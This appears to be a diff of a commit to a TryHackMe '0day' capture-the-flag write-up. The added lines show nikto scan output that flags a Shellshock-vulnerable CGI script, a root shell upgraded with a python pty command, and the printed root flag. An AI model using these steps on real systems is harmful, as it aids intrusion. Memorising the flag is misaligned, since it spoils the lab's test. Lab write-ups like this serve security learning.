

Before and after one commit to muhammedkayag/TryHackMe-0day-WriteUp, a Markdown page: 0day.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/0day.md
+++ b/0day.md
@@ -137,6 +137,23 @@ So after that we start nikto for to find out which vulnerability this site has:
 
 
 ```
+┌─[root@parrot]─[/home/parrot]
+└──╼ #nikto -h 10.10.105.222
+- Nikto v2.5.0
+---------------------------------------------------------------------------
++ Target IP:          10.10.105.222
++ Target Hostname:    10.10.105.222
++ Target Port:        80
++ Start Time:         2023-05-06 22:39:57 (GMT3)
+---------------------------------------------------------------------------
++ Server: Apache/2.4.7 (Ubuntu)
++ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
++ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
++ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
++ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
++ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
++ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
++ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
 
 ```
 
@@ -296,7 +313,21 @@ creating shared library
 # whoami
 whoami
 root
+# python3 -c 'import pty;pty.spawn("/bin/bash")'
+python3 -c 'import pty;pty.spawn("/bin/bash")'
+root@ubuntu:/run/shm#
+```
 
+
+
+It worked, we are root so we get our root flag:
+
+
+
+```
+root@ubuntu:/run/shm# cat /root/root.txt
+cat root.txt
+THM{g00d_j0b_0day_is_Pleased}
 ```
 
 
````
Also changed, not shown: other parts of 0day.md (+1 -1 lines).
